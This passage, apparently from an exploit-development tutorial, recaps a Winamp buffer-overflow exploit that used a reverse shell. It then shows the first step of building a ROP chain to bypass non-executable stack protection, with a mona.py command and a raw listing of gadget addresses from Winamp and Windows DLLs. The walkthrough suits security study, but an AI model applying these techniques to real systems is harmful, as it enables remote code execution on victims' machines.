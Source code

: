1. Determining the exact offset in bytes to control the EIP
1. Finding a `JMP ESP` trampoline gadget, to launch into the correct instruction on the stack.
1. Making the shellcode to call home to a reverse shell as a native x86 windows (PE) binary, in python format.
1. Tying the exploit together as a simple python script.

This is great, as allot of the above is still useful. In the case of a ROP exploit, instead of triggering the `JMP ESP` trampoline gadget, need to incorporate the ROP chain to disable non executable stack instructions, so we can get the processor to run the shellcode which we also spray onto the stack.


## Step 1: Evaluate ROP gadgets and chains

Using the `mona.py` framework with immunity debugger for windows, are going to get mona to sift through every instruction in the program and all its modules (dll's) for useful ROP gadgets. 

Once you have pointed immunity at `winamp.exe`, make sure you start it with F9, this will trigger the linker to link in dynamic libraries into the address space of the program. At this point, invoke the `rop` command on `winamp.exe` and all its modules:

    !mona rop -cpb '\x00\x20\x0a\x0d' -m *

This is a very intensive process, and for a moderately sized program like winamp, can take hours. A number of text reports are generated:

* `rop.txt` the complete (enormous) listing of discovered gadgets
* `rop_chains.txt` some auto assembled chains for bypassing common mitigations (e.g. `VirtualAlloc` on Windows, to allow executable stack)
* `rop_suggestions.txt` a sorted and grouped listing of gadgets.


Raw listing of gadgets from `rop.txt`:

    Interesting gadgets
    -------------------
    0x7dcf4033 :  # ADD AL,5E # POP EBP # RETN 0x08    ** [mshtml.dll] **   |   {PAGE_EXECUTE_READ}
    0x077f99b5 :  # POP EDI # RETN    ** [in_vorbis.dll] **   |   {PAGE_EXECUTE_READ}
    0x081d5557 :  # XOR EAX,EAX # INC EAX # POP EBP # RETN 0x10    ** [auth.w5s] **   |  ascii {PAGE_EXECUTE_READ}
    0x7cb67a02 :  # POP ECX # MOV EAX,ESI # POP ESI # POP EBP # RETN 0x04    ** [SHELL32.dll] **   |   {PAGE_EXECUTE_READ}
    0x079a47ab :  # POP ESI # RETN 0x04    ** [ml_online.dll] **   |   {PAGE_EXECUTE_READ}
    0x7e2f6ad3 :  # POP ESI # POP EBP # RETN 0x04    ** [shdocvw.dll] **   |   {PAGE_EXECUTE_READ}
    0x774feab1 :  # POP EDI # POP ESI # POP EBP # RETN 0x08    ** [ole32.dll] **   |   {PAGE_EXECUTE_READ}
    0x76fd555a :  # MOV DWORD PTR DS:[EAX+8],ECX # MOV DWORD PTR DS:[EAX+C],ECX # RETN    ** [CLBCATQ.DLL] **   |   {PAGE_EXECUTE_READ}
    0x7752aab0 :  # DEC ECX # RETN 0x08    ** [ole32.dll] **   |   {PAGE_EXECUTE_READ}
    0x0741555b :  # MOV EAX,gen_ff.0749E324 # RETN    ** [gen_ff.dll] **   |  ascii {PAGE_EXECUTE_READ}
    0x7ca1555d :  # TEST BYTE PTR DS:[EAX+EAX],AL # POP ESI # POP EBP # RETN 0x18    ** [SHELL32.dll] **   |   {PAGE_EXECUTE_READ}
    0x5ad7be98 :  # POP EDX # MOV DWORD PTR DS:[ESI],EAX # POP ESI # POP EBP # RETN 0x04    ** [UxTheme.dll] **   |   {PAGE_EXECUTE_READ}
    0x7d7e88ee :  # NEG ECX # MOV EAX,ECX # POP EBP # RETN 0x04    ** [WMVCore.DLL] **   |   {PAGE_EXECUTE_READ}
    0x7e2f6ad4 :  # POP EBP # RETN 0x04    ** [shdocvw.dll] **   |   {PAGE_EXECUTE_READ}
    0x0741555e :  # DEC ECX # POP ES # RETN    ** [gen_ff.dll] **   |  ascii {PAGE_EXECUTE_READ}
	...
